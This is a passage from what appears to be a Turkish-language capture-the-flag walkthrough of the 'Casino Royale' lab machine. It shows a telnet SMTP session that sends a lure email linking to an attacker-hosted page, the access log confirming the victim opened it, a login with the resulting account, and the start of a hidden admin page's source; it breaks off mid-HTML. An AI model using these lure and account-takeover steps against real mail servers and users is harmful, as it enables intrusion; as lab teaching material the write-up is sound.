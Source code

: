 Nmap çıktısına baktığımızda 25. portta smtp portu olduğunu görmüştük. Bir bilgi vereyim smtp sadece eposta atmaya yarar eposta okumak için pop3, imap gibi protokollere ihtiyacımız vardır. Neyse bu ufak bilgiden sonra devam edelim...

25. porta `telnet` ile bağlanabiliriz. Burdan sonra smtp posifix komutlarını kullanarak ilerleyeceğiz. Eğer daha önceden smtp komutları ile ilgilenmediyseniz çok zorlanmadan anlayacağınıza eminim. Kaynaklar kısmında kolay bir şikilde öğrenebileceğiniz bir kaynak verdim.

İlk olarak bize bir bağlantı oldu mu olmadı mı bunun kontrolü için log dosyasını canlı olarak okumalıyız.
```sh
root@kali:/var/log/apache2# tail -f access.log 
```
Daha sonrasında telnet aracılığı ile mail yolladım.
```sh
oot@kali:~# telnet  192.168.171.141 25
Trying 192.168.171.141...
Connected to 192.168.171.141.
Escape character is '^]'.
220 Mail Server - NO UNAUTHORIZED ACCESS ALLOWED Pls.
mail from:user
250 2.1.0 Ok
rcpt to:valenka
250 2.1.5 Ok
data
354 End data with <CR><LF>.<CR><LF>
subject:obanno
yeni uye kaydi yapacam  
http://192.168.171.136/casino.html
.
250 2.0.0 Ok: queued as 0219822F6
quit
221 2.0.0 Bye
Connection closed by foreign host.
```
Kısa bir süre sonra log düştüğünü gördüm...
```sh
root@kali:/var/log/apache2# tail -f access.log 
192.168.171.141 - - [16/May/2019:09:34:44 -0400] "GET /casino.html HTTP/1.1" 200 1165 "-" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_7_5) AppleWebKit/537.4 (KHTML, like Gecko) Chrome/22.0.1229.94 Safari/537.4"
```
Evet istediğimiz her şey oluyor gibi. Artık sisteme giriş yapabiliriz. `http://casino-royale.local/vip-client-portfolios/?uri=signin` adresine giriş yaparak eposta kısmına *user@user.local* şifre kısmına ise *password* yazalım.

İçeride gezindikten sonra menü kısmından `Admin`->`Users`->`Manage Accounts` kısmına gelip *Le*'nin profiline girdiğimde `/ultra-access-view/main.php` şeklinde bir bağlantı gördüm.
`casino-royale.local/ultra-access-view/main.php` adresine gittiğimde yeni bir sayfa ile karşılaştım. Sayfanın kaynak kodlarına bakalım.
```html
<html>
<style>
body {
	color: #c46f6f;
}
hr {
	color: magenta;
}
</style>

<body style="background-color:#1e1614;">
<h1 style="color:red;">Client Access: ULTRA</h1>
<hr>
<br>
<!--FYI this is taking POST requests without a front end for the time being..
```